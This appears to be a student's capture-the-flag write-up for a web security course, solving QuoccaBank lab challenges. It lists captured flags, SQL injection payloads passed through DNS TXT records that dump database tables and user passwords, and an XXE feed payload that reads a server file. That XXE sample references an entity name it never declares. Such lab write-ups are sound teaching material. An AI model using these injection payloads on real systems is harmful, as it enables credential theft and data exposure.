   - COMP6443{I_CAN_INJECT_THE_ENTIRE_WORLD}

### signin.quoccabank.com

- COMP6443{INJECT_EVERYTHING_INJECT_EVERYWHERE.ejUzMTI3OTk=.x1Y71iGhK73pQJ6T5StC7A==}

  - Link your IP address with a domain (this allows you to perform SQLi by creating TXT records)
  - It appears that the SQL in the backend is using an UPDATE query with the given TXT record (presumably using input from dnslookup). We can perform a query now using a subquery structure shown below. We are `GROUP_CONCAT` as it only expects one output.
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )`
  - This query gives us all of the table names in the database. However, it would appear that there is a certain character limit that can be displayed on screen. Given this, we can reverse the order of the query using this:
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name ORDER BY table_name DESC SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )`
    - From this, it appears that there is a `users` table that we could possibly extract useful information from.
  - Now, having a table name, we can query the column names.
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name = 'users')), reset_actor=? where email=?  -- )`
    - Notable column names includes `email` and `password`

  - Used this query below to get the usernames and passwords for signin
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS usersb)), reset_actor=? where email=?  -- )`
    - We used another subquery here because MySQL doesn't allow you to reference the table that you are updating. This can however be overcome by using a query instead of the table itself in the FROM, which has the effect of copying the requested table values instead of referencing the one that you are updating. (source: https://stackoverflow.com/questions/37251621/how-to-resolve-mysql-error-you-cant-specify-target-table-x-for-update-in-from)
  - Once the query has been showed, it appears that there is an `admin@quoccabank.com` account with the password `LMAO_YOU_THERES_A_FLAG`. Logging in to that account gives us the flag.
### v1.feedifier.quoccabank.com

- COMP6443{XE.ejUzMTI3OTk=.SsMk2TZpFAmaLYxPS5Skwg==}

  - flag path is hidden in the page source comments `/flag_31339c0e290a9cb7053c408590fc3334`

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
     	<!ELEMENT foo ANY >
    	<!ENTITY xxe SYSTEM "file:///flag_31339c0e290a9cb7053c408590fc3334"
    >]>
    
    <rss version="2.0"
    	xmlns:content="http://purl.org/rss/1.0/modules/content/"
    	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
    	xmlns:dc="http://purl.org/dc/elements/1.1/"
    	xmlns:atom="http://www.w3.org/2005/Atom"
    	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
    	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
    >
    	<channel>
    		<description>The blogging home of QuoccaBank</description>
    		<item>
    			<title>&payload;</title>
    			<link>https://blog.quoccabank.com/?p=42</link>
    			<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
    		</item>
    	</channel>
    </rss>
    ```
